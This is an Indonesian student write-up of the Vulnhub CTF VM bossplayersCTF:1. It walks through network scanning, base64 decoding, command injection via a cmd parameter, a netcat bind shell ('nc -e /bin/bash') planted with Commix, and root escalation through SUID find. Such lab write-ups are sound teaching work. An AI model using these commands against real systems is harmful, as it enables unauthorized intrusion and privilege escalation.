 | Nama | NRP | Kelas |
| :--: | :--: | :--: |
| Nabiel Nizar Anwari | 5027231087 | Ethical Hacking dan Uji Keamanan Siber (A) |

# WU_bossplayersCTF1-Vulnhub
Write Up BossPlayersCTF:1 VM Vulnhub

- [Download VM here](https://www.vulnhub.com/entry/bossplayersctf-1,375/)
```
About Release
    Name: bossplayersCTF:1
    Date release: 28 Sep 2019
    Author: Cuong Nguyen
    Series: bossplayersCTF
```

## Scanning Network dengan Netdiscover
**Tujuan** : Menemukan IP address dari target di jaringan lokal.  

`sudo netdiscover -r 192.168.87.0/24`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/netdiscover-2.png)

## Scanning Target dengan Nmap
**Tujuan:** Mengidentifikasi port terbuka dan layanan yang berjalan.

`sudo nmap 192.168.87.4 -A -p- -oN log-nmap.log`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nmap.png)

## Melihat Halaman Utama HTTP
**Tujuan: **Mengeksplorasi halaman utama server HTTP.

`http://192.168.87.4/`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/http.png)

## Memeriksa robots.txt file
**Tujuan:** Mencari petunjuk tambahan.

URL : `http://192.168.87.4/robots.txt`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/robots-txt.png)

## Decode Password (Base64)
**Tujuan:** Mendekode string yang ditemukan.

`echo bG9sIHRyeSBoYXJkZXIgYnJvCg== | base64 -d`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode.png)


## Source Code Halaman Web

`Ctrl + U`

`WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/ctrl-u.png)

## Decode String Base64 Berulang
**Tujuan:** Mendekode string Base64 hingga teks asli ditemukan.

```
1. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d
2. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d
3. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d | base64 -d

```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode-2.png)

## PHP File Target
**Tujuan:** Mengeksplorasi file PHP yang ditemukan.

`http://192.168.87.4/workinginprogress.php`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-1.png)

## Testing Command Injection (Whoami URL)
**Tujuan:** Menguji kerentanan Command Injection.

`http://192.168.87.4/workinginprogress.php?cmd=whoami`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-2.png)

## Eksploitasi dengan Commix
**Tujuan:** Mengeksploitasi Command Injection menggunakan Commix.

`commix -u 'http://192.168.87.4/workinginprogress.php?cmd=whoami'`
```
nc -e /bin/bash -lvp 2048
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/commix.png)

## Mendapatkan Reverse Shell dengan Netcat
**Tujuan:** Mengakses shell dari mesin target.

`nc 192.168.87.4 2048`

```
uname -a

find / -perm -4000 -type f 2>/dev/null
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc.png)

## Privilege Escalation
**Tujuan:** Meningkatkan hak akses menjadi root.

```
find -exec bash -p \;
whoami
ls -al /root
cat /root/root.txt
cat /root/root.txt | base64 -d
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc-2.png)

# Kesimpulan
> Pada akhir proses, berhasil mendapatkan akses root dan membaca file root.txt, yang merupakan flag dari mesin ini. Proses ini mencakup eksplorasi HTTP, eksploitasi command injection, dan privilege escalation. tools-tools seperti base64 decoding, Commix, dkk juga sangat membantu untuk bisa mengeksploitasi mesin ini
